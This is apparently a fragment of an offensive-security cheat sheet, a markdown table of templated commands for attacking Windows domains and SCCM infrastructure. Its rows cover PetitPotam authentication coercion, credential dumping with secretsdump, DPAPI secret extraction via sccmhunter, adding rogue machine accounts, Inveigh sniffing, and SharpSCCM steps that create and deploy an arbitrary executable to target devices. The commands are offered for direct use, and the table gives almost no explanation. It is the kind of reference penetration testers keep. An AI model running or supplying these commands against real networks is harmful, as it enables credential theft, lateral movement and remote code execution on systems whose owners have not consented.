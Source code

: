 | `proxychains4 -q python3 sccmhunter.py admin -u <USER> -p '<PASSWORD>' -ip <TARGET_IP> -au '<COMPUTER_NAME>' -ap <COMPUTER_PASSWORD>` | Use SCCMHunter for administrative tasks with additional parameters. |
| `proxychains4 -f <PROXY_CONF> python3 PetitPotam.py -u <USER> -p '<PASSWORD>' -d '<DOMAIN>' <PROXY_IP> <TARGET_IP>` | Execute PetitPotam attack using proxychains. |
| `proxychains4 -q -f <PROXY_CONF> mssqlclient.py '<USER>'@<TARGET_IP> -windows-auth -no-pass` | Connect to MSSQL server using proxychains and mssqlclient with Windows authentication and no password. |
| `Get-DomainUser <USER> -Properties objectsid` | Get domain user properties using PowerShell. |
| `proxychains4 -q -f <PROXY_CONF> secretsdump.py '<USER>'@<TARGET_IP> -no-pass` | Dump secrets from a target using proxychains and secretsdump with no password. |
| `proxychains4 -q -f <PROXY_CONF> python3 sccmhunter.py admin -u '<USER>' -p <NTLM_HASH> -ip <TARGET_IP>` | Use SCCMHunter for administrative tasks with NTLM hash authentication. |
| `proxychains4 -q python3 sccmhunter.py dpapi -u <USER> -p <PASSWORD> -d <DOMAIN> -dc-ip <DC_IP> -target <TARGET_IP> -wmi` | Enumerate DPAPI using SCCMHunter with WMI. |
| `proxychains4 -q addcomputer.py -computer-name '<COMPUTER_NAME>' -computer-pass '<COMPUTER_PASSWORD>' -dc-ip <DC_IP> '<DOMAIN>/<USER>':'<PASSWORD>'` | Add a computer to the domain using proxychains and addcomputer.py. |
| `xfreerdp /u:<USER> /p:'<PASSWORD>' /d:<DOMAIN> /v:<TARGET_IP> /dynamic-resolution /drive:.,linux /bpp:8 /compression -themes -wallpaper /clipboard /audio-mode:0 /auto-reconnect -glyph-cache` | Connect to a remote desktop using FreeRDP. |
| `.\Inveigh.exe` | Execute Inveigh for network sniffing and exploitation. |
| `.\SharpSCCM.exe invoke client-push -t <TARGET_IP>` | Invoke client push installation using SharpSCCM. |
| `.\SharpSCCM.exe get devices -n <SCCM_SERVER> -sms <TARGET_IP>` | Get devices from SCCM server using SharpSCCM. |
| `.\SharpSCCM.exe get class-instances <CLASS_NAME> -p <PROPERTY1> -p <PROPERTY2> -p <PROPERTY3> -p <PROPERTY4> -sms <TARGET_IP>` | Get class instances from SCCM server using SharpSCCM. |
| `.\SharpSCCM.exe get primary-users -u <USER> -sms <TARGET_IP>` | Get primary users from SCCM server using SharpSCCM. |
| `.\SharpSCCM.exe get devices -w "<FILTER_CONDITION>" -sms <TARGET_IP>` | Get devices with specific filter conditions from SCCM server using SharpSCCM. |
| `.\SharpSCCM.exe new application -s -n <APPLICATION_NAME> -p <PATH_TO_EXECUTABLE> -sms <TARGET_IP>` | Create a new application in SCCM using SharpSCCM. |
| `.\SharpSCCM.exe new collection -n "<COLLECTION_NAME>" -t device -sms <TARGET_IP>` | Create a new collection in SCCM using SharpSCCM. |
| `.\SharpSCCM.exe new collection-member -d <DEVICE_NAME> -n "<COLLECTION_NAME>" -t device -sms <TARGET_IP>` | Add a new member to a collection in SCCM using SharpSCCM. |
| `.\SharpSCCM.exe new deployment -a <APPLICATION_NAME> -c "<COLLECTION_NAME>" -sms <TARGET_IP>` | Create a new deployment in SCCM using SharpSCCM. |
| `.\SharpSCCM.exe invoke update -n "<COLLECTION_NAME>" -sms <TARGET_IP>` | Invoke update for a collection in SCCM using SharpSCCM. |